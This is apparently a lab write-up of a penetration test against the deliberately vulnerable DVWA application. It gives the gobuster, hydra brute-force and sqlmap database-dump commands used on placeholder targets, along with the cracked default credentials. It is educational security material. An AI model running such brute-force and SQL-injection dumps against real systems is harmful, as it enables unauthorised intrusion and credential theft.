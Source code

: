 DVWA Penetration Testing Lab – Attack Steps

This document outlines the step-by-step methodology followed during the penetration testing of the DVWA environment.
All examples are sanitized for safe public sharing.

---

# Reconnaissance

1.1 Nmap Scan

Objective: Identify open ports, services, and versions.

📌 Findings:
	•	Port 80 – HTTP – Apache/2.4.62 (Debian)
	•	Port 3306 – MySQL/MariaDB
	•	OS Fingerprint: Linux Debian


1.2 Gobuster Directory Enumeration

Objective: Discover hidden web directories and files.

gobuster dir -u http://<target-ip>/ -w /path/to/wordlist -o attack-scripts/gobuster_scan.txt

📌 Findings:
	•	/dvwa/ – DVWA application root
	•	/dvwa/login.php – Login page
	•	/dvwa/config/ – Config files

# Exploitation

2.1 Brute Force with Hydra

Objective: Test weak credentials on the DVWA login.

hydra -l admin -P /path/to/wordlist http://<target-ip>/dvwa/login.php -V -o attack-scripts/hydra_bruteforce.txt

📌 Result:
	•	Valid credentials found: admin:password

2.2 SQL Injection (SQLMap)

Objective: Exploit DVWA SQL Injection vulnerability to extract database data.

sqlmap -u "http://<target-ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session-id>; security=low" \
  --batch --level=5 --risk=3 --dump -o attack-scripts/sqlmap_dump.txt

📌 Result:
	•	Database Name: dvwa
	•	Table Extracted: users
	•	Dumped usernames and hashed passwords (some cracked: admin:password, gordonb:abc123)


#Post-Exploitation

	•	Logged extracted data into attack-scripts/sqlmap_dump.txt
	•	Captured screenshots of SQLMap output and DVWA vulnerable pages (IPs blurred before upload)

#Documentation & Evidence

	•	Configs → configs/dvwa-config.sample.php (sanitized DVWA config file)
	•	Docs → docs/attack-steps.md (this file)
	•	Attack Scripts → All tool output logs stored in attack-scripts/
	•	Screenshots → Stored in /screenshots with IPs and sensitive info blurred

#Lessons Learned

	•	Weak passwords (password, abc123) remain a major risk in web apps.
	•	Input validation failures lead directly to SQL Injection vulnerabilities.
	•	Simple reconnaissance can reveal high-impact vulnerabilities in unpatched systems.

# Legal & Ethical Notice

This lab was executed in a controlled environment.
Testing against systems you do not own or have explicit permission to test is illegal




